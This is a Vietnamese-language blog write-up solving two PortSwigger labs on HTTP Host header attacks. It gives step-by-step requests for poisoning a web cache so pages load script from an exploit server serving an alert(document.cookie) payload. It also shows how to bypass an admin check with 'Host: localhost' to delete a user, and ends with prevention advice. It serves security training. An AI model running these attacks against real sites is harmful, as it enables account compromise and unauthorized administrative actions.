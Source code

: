```yaml
---
title: "[PortSwigger Lab] - HTTP Host Header Attacks"
description: Solution of HTTP Host Header Attacks Lab
date: 2025-06-17 21:30:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, http host header]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-17-portswigger-lab-http-host-header-attacks/http-host-header-attacks.png
    alt: HTTP Host Header Attacks
---
```


## Introduction
---
### **HTTP Host Header**
**HTTP Host Header** là một phần bắt buộc trong **request HTTP** từ phiên bản `HTTP/1.1` trở lên. Nó dùng để xác định **domain** mà **client (trình duyệt, công cụ HTTP, v.v.)** muốn truy cập đến.

### What is the purpose of the HTTP Host header?
1. Vì nhiều **website** có thể dùng chung **1 IP (Virtual Hosting)**
    - Ngày xưa: mỗi **IP** chỉ phục vụ **1 website** → không cần **Host header**.
    - Ngày nay: do thiếu địa chỉ **IPv4**, nhiều **website** chia sẻ cùng **1 IP**.
    - Máy chủ cần biết **client** muốn **website** nào → dùng **Host: domain**.
2. Vì có các hệ thống trung gian **(Load balancer, Reverse proxy, CDN)**
    - Một **CDN** như **Cloudflare** có thể phục vụ hàng ngàn **domain** qua cùng **1 IP**.
    - **CDN/Proxy** sẽ nhìn vào **Host header** để biết cần chuyển **request** đến **server** nào phía sau.

### **HTTP Host Header Attacks**
Là kiểu tấn công xảy ra khi máy chủ xử lý giá trị **Host** từ client một cách không an toàn – cụ thể là tin tưởng hoàn toàn vào giá trị đó mà không xác thực hoặc lọc dữ liệu.

## Solve HTTP Host Header Attacks
---
### Lab: Web cache poisoning via ambiguous requests
#### Analysis
- Truy cập website và gửi request đến **Burp Repeater**

Request:
```http
GET / HTTP/1.1
Host: 0a61000603dc04fc81cf0c18003d00d2.h1-web-security-academy.net
Cookie: session=JPIEPv1TmARu0keE0JDXX8DGmuPj1XfO; _lab=46%7cMCwCFF9K2kIxeI1yCHNUVwFAW9vybgdmAhQmfwYLPKGO4eeTqkBKOY54DtYNMQGlkIiEj6Mi2ame%2fSNOnHQbyNVRVaaJLfWbHCOZ9AVszrlNPZl%2b0SvUOMpkhuyJp0X7yJ0dLbo99uO7v5mAs6yZc0qk2oU8yFG1fyxKrfk7jPMZyxgeT4Y%3d
```

Response:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 13971
...
<script type="text/javascript" src="//0a61000603dc04fc81cf0c18003d00d2.h1-web-security-academy.net/resources/js/tracking.js"></script>
```

- Ta thấy giá trị **header** `X-Cache: miss` là một **custom header** được thêm bởi **web cache**, **CDN**, hoặc **reverse proxy**
- Gửi lại request => **header** `X-Cache: hit` tức đã lấy kết quả truy cập từ **web cache**
- **Web cache** được sử dụng để lưu trữ tạm thời các tài nguyên đã được truy cập trước đó, với mục tiêu
    - Tăng tốc độ truy cập cho người dùng (không cần tải lại từ server gốc).
    - Giảm tải cho máy chủ gốc (backend).
    - Tiết kiệm băng thông.
    - Cải thiện khả năng mở rộng (scalability) của hệ thống.

| Header          | Ý nghĩa chính                                          |
| --------------- | ------------------------------------------------------ |
| `X-Cache: MISS` | Request không có sẵn trong cache, được gửi đến backend |
| `X-Cache: HIT`  | Request được phục vụ từ cache (nhanh hơn)              |

Quan sát response ta thấy 

```html
<script type="text/javascript" src="//0a61000603dc04fc81cf0c18003d00d2.h1-web-security-academy.net/resources/js/tracking.js"></script>
```
- Thử thay đổi **Host** thành `xnxx.com`, ta nhận được

```html
<html>
    <head>
        <title>Server Error: Gateway Timeout</title>
    </head>
    <body>
        <h1>Server Error: Gateway Timeout (1) connecting to xnxx.com</h1>
    </body>
</html>
```
- Thử thêm **Host** `xnxx.com` phía dưới **Host** gốc => Thành công, ứng dụng chọn **Host** thứ `2`
- Gửi thêm lần nữa để nhận dược `X-Cache: hit` => **poison web cache** => client tải tài nguyên từ web cache 
- Quan sát response ta thấy

```html
<script type="text/javascript" src="//xnxx.com/resources/js/tracking.js"></script>
```
- Ứng dụng trả về **resource** từ **web cache** 
- Ta có thể tạo ra resource từ server của mình đề client tải về và chạy mã độc

#### Exploit
- Đến **Exploit server**, dán vào **body** payload sau:

```js
alert(document.cookie)
```

- Thay đổi địa chỉ của `File` thành `/resources/js/tracking.js`
- Thêm **Host** `exploit-0ad600c0035b046f813c0b9b0169009c.exploit-server.net` phía dưới **Host** chính và gửi cho đến khi `X-Cache: hit`
- Qua sát response ta thấy

```html
<script type="text/javascript" src="//exploit-0ad600c0035b046f813c0b9b0169009c.exploit-server.net/resources/js/tracking.js"></script>
```
- Khi **client** truy cập vào trang web, tài nguyên sẽ được tải từ **web cache**, tuy nhiên nó đã bị đầu độc, client sẽ tải và chạy `exploit-0ad600c0035b046f813c0b9b0169009c.exploit-server.net/resources/js/tracking.js` từ **exploit server**

### Lab: Host header authentication bypass
- Truy cập `/robots.txt` để kiếm tra có đường dẫn ẩn nào không => `Disallow: /admin`
- Truy cập vào trang `/admin`, ta nhận được `Admin interface only available to local users` => Yêu cấu `Host: localhost`
- Thay đổi `Host: localhost` và gửi lại request => Truy cập được trang `admin`
- Quan sát, có đường dẫn để xóa user `carlos`
- Gửi request để xóa user `carlos`

```http
GET /admin/delete?username=carlos HTTP/2
Host: localhost
```

## Prevent
--- 
1. Không dùng Host để tạo URL tuyệt đối khi không cần thiết
    - Dùng URL tương đối (/reset-password) thay vì https://example.com/reset-password
    - Tránh `$_SERVER['HTTP_HOST']`, `request.get_host()`, `v.v`.

2. Cấu hình **domain** một cách thủ công trong **code/server**
    - Lưu **domain** thật trong **file config** hoặc biến môi trường
    - Khi cần tạo **link**, dùng giá trị từ **config**, không lấy từ **request**

3. Kiểm tra và lọc **Host header**
    - So sánh **Host** với danh sách **domain** hợp lệ **(whitelist)**

4. Tắt hoặc kiểm tra kỹ các **header** phụ trợ như:
    - **X-Forwarded-Host**
    - **X-Host**
    - **Forwarded**

5. Phân tách hệ thống nội bộ khỏi **public**
    - Không chạy cả app nội bộ lẫn app **public** trên cùng 1 **server/VM**
    - Tránh để **attacker** lợi dụng **Host: internal.example.local** để truy cập dịch vụ ẩn

---
Goodluck! 🍀🍀🍀 


